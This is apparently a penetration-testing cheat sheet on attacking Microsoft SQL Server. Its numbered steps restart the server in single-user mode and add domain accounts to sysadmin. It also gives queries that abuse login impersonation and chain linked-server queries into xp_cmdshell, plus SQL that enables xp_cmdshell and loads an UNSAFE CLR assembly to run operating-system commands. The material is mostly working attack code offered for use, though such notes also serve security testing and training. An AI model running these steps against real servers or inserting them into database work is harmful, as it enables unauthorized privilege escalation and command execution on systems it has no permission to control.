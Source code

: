 # MSSQL attacks

### SA single mode technique

{% hint style="info" %}
This technique can be used to add any user as SYSADMIN (sa).

It requires Local Administrator privilege on the box.
{% endhint %}

1. Stop the services (both server and agent)

![](<../../../../.gitbook/assets/image (205).png>)

&#x20;   2\. Using an elevated command prompt, start the server into Single Mode ( `-m`)

```csharp
"C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\sqlservr.exe" -m  -sSQLEXPRESS
```

![](<../../../../.gitbook/assets/image (223).png>)

&#x20; 3\. Download SQLCMD utility from Microsoft website:

{% embed url="https://go.microsoft.com/fwlink/?linkid=2142258" %}

&#x20; 4\. From an another cmd prompt, use SQLCMD to connect to the server:

```csharp
sqlcmd -S SQLUAT
```

&#x20; 5\. Grant sa access to anyone

```csharp
sp_addsrvrolemember 'crook\homer_potter', 'sysadmin'
GO
sp_addsrvrolemember 'crook\sqladmin', 'sysadmin'
GO
```

![](<../../../../.gitbook/assets/image (251).png>)

&#x20; 6\. Restart the SQL server as usual and enjoy.

![](<../../../../.gitbook/assets/image (213).png>)

### Impersonation&#x20;

#### List impersonation account

```c
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

### Login As

```csharp
EXECUTE AS LOGIN = 'sa'
```

### RPC out

#### Enumeration

```csharp
select * from master..sysservers
```

![](<../../../../.gitbook/assets/image (87).png>)

### Database Links

```csharp
select * from openquery("SERVER01", 'select * from master..sysservers')
```

```csharp
select * from openquery("sql1",'select * from openquery("server2",''select * from openquery("server3",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

### XP\_cmdshell Stored Procedures

#### shell

```csharp
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
exec master..xp_cmdshell "powershell ls /"
```

![](<../../../../.gitbook/assets/image (47).png>)

### Custom Assemblies

```
EXECUTE AS LOGIN = 'sa';
USE msdb;  EXEC sp_configure 'show advanced options',1 ; RECONFIGURE ;
EXEC sp_configure 'clr enabled',1; RECONFIGURE ;
EXEC sp_configure 'clr strict security', 0; RECONFIGURE ;
DROP PROCEDURE IF EXISTS dbo.cmdExec ;
DROP ASSEMBLY IF EXISTS myAssembly;
CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];
EXEC cmdExec 'whoami';
```

![](<../../../../.gitbook/assets/image (116).png>)
